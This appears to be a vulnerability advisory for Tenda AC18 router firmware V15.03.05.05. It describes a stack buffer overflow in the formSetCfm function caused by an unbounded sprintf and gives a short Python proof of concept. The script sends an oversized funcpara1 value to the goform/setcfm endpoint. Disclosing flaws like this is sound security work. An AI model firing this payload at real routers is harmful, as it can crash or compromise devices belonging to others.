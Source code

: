 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda A18 V15.03.05.05 has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `sub_4EA34` function. Within `sub_4EA34`, the array `s` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(s, "%s.list%d", a1, v11);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `s` array, thus triggering this security vulnerability.

![image-20240308165412900](formSetCfm.assets/image-20240308165412900.png)

![image-20240308165426906](formSetCfm.assets/image-20240308165426906.png)

![image-20240308165436222](formSetCfm.assets/image-20240308165436222.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240308165514005](formSetCfm.assets/image-20240308165514005.png)